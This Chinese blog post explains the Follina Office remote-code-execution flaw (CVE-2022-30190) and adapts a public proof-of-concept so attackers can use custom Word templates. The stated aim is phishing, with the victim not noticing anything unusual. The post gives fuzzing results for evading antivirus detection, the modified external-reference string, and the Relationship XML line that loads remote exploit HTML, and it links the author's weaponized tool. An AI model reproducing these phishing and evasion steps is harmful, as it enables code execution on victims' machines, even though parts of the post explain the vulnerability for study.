# CVE-2022-30190 Follina Office RCE 分析【附自定义 word 钓鱼模板 POC】 - komomon - 博客园

> 原文：[`www.cnblogs.com/forforever/p/16370895.html`](https://www.cnblogs.com/forforever/p/16370895.html)

昨天看了下'Follina' MS-MSDT n-day Microsoft Office RCE 这个漏洞，修改了下 chvancooten 的脚本，实现可以自定义 word 模板，便于实战中钓鱼使用，自己编辑好钓鱼 word 文档后-f 参数指定即可。

也可以从我的 github 上下载：[`github.com/komomon/CVE-2022-30190-follina-Office-MSDT-Fixed`](https://github.com/komomon/CVE-2022-30190-follina-Office-MSDT-Fixed)

## 1.复现

使用 https://github.com/chvancooten/follina.py 的项目生成恶意 word 文件，可以实现命令执行，不过腾讯电脑管家、火绒会查杀




## 2\. 分析 poc

主要就是两处，一处是改 word 的 word/_rels 目录下新添加一个 document.xml.rels 文件，里面是一个 windows.location.href 加载远程连接

远程 html 中放着 ms-msdt:/协议写的 HTML

最后将文件压缩打包成 docx。

## 3\. Fuzz

**第一种**
分析后可知只是在 word 的 word/_rels 修改了 document.xml.rels 文件
应对实战空文件不行，随便新建一个文件然后添加一些内容，然后解压后将 document.xml.rels 放入，再压缩回去，发现不会触发。

**第二种**
生成的 clickme.docx 不修改的情况下，可以多次触发，只要修改就不能触发了

**第三种**
修改 document.xml.rels 文件名不行，依然查杀

**第四种 fuzz 内容**
查杀的是请求外链，http 字样就会查杀


```
mhtml:http://localhost:80/exploit.html!x-usc:http://localhost:80/exploit.html
换成
http://localhost:80/exploit.html! 
```

就可以了

但是实战中要用到自己的 word 模板，要不然受害者一点开就会觉察到不正常，所以为了贴近实战，修改了脚本，可以自定义 word 模板。

## 4.再分析

### 4.1.word 结构和 poc 分析


word 文件结构：

```
.
├── [Content_Types].xml   // 描述的是整个文档的内容。把各个 XML 文件组合成一个整体
├── _rels                 // 定义 Package(Zip 包)和它所直接包含的 Part 之间的关系。对于一个 Part 来说，如果它依赖其他 Part，那么需要为这个 Part 创建一个目录，并且也有一个 _rels 目录，目录下面会有一个 partname.rels 文件。比如 /word/document.xml 就是很典型的例子
├── docProps              // 记录 docx 文档的主要属性信息
│   ├── app.xml          // 描述文档的文档类型、版本、只读信息、共享、安全属性等信息
│   └── core.xml         // 描述文档的创建时间、标题、主题和作者等基于 Open XML 约定文档格式的通用文件属性信息
└── word
    ├── _rels
    │   └── document.xml.rels
    ├── charts
    │   ├── _rels
    │   │   ├── chart1.xml.rels  \\ 映射表存放文件文本框文件的位置
    │   ├── chart1.xml
    │   ├── colors1.xml
    │   ├── colors2.xml
    │   ├── style1.xml
    │   ├── style2.xml
    ├── document.xml    // 文档中所有可见文字的内容和属性及不可见部分的内容和属性
    ├── embeddings
    │   ├── Microsoft_Excel_Worksheet.xlsx
    │   ├── Microsoft_Excel_Worksheet1.xlsx
    │   ├── oleObject1.bin  // OLE 是 Object Linking and Embedding 的缩写,直译为对象连接与嵌入；满足用户在一个文档中加入不同格式数据的需要（如文本、图像、声音等），即解决建立复合文档问题。
    │   ├── oleObject2.bin
    │   ├── oleObject3.bin
    │   ├── oleObject4.bin
    ├── endnotes.xml 
    ├── fontTable.xml    // 文档所使用的字体信息
    ├── footer1.xml
    ├── footer2.xml
    ├── footnotes.xml    // 文档中脚注部分信息
    ├── header1.xml
    ├── header2.xml
    ├── media               // Word 中的多媒体文件，如插入的图片、公式对应的 wmf 文件等
    │   ├── image1.emf
    │   ├── image2.png
    │   ├── image3.jpeg
    │   ├── image4.wmf
    │   ├── image5.emf
    ├── numbering.xml          // Word 中的有序列表、无序列表等的信息，定义了列表的样式、序号等信息
    ├── settings.xml           // 文档的总体设置信息
    ├── styles.xml             // Word 的样式信息，定义样式的展示优先级以及段落、表格等样式
    ├── theme                  // 文档的主题的所有信息，如颜色、字体大小
    │   ├── theme1.xml
    │   ├── themeOverride1.xml
    │   └── themeOverride2.xml
    └── webSettings.xml        // 文档左右间距等的样式信息 
```

分析 word 的目录结构，了解到 Word/document.xml 是文件的内容
[Content_Types].xml 存储的是 part 名称和类型
每一个 part 是一个 xml，part 如果引用外部文件就需要在当前目录下创建一个 _rels 文件夹，下面存放外部引用的 rels 文件，poc 中就是用了 document.xml 的外部引用。

Poc 脚本的模板使用的 rid 是 1337，控制修改在 documen.xml 中如下修改改成了 1111

然后 document.xml.rels 对应修改成了之后就可以使用了

### 4.2.关于文件内容

通过了解 word 的结构后，如果想要文件内容是自定义的，即自创建模板，可以修改 document.xml 即可
填上如下部分即可



然后对应的 xxx.xml.rels 文件中添加外部引用的一行，注意 rid 对应即可。

```
<Relationship Id="rId1111" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://localhost:80/exploit!" TargetMode="External"/> 
```

如下自创模板，并触发漏洞


### 4.3.静态免杀


**上线测试**

最后编写了自定义 word 模板的脚本：


​工具下载：[`github.com/komomon/CVE-2022-30190-follina-Office-MSDT-Fixed`](https://github.com/komomon/CVE-2022-30190-follina-Office-MSDT-Fixed)

## 技术交流

关注公众号回复“加群”，添加 Z2OBot 小 K 自动拉你加入 Z2O 安全攻防交流群分享更多好东西。


**知识星球**
团队建立了知识星球，不定时更新最新漏洞复现，手把手教你，同时不定时更新 POC、内外网渗透测试骚操作。感兴趣的可以加一下。


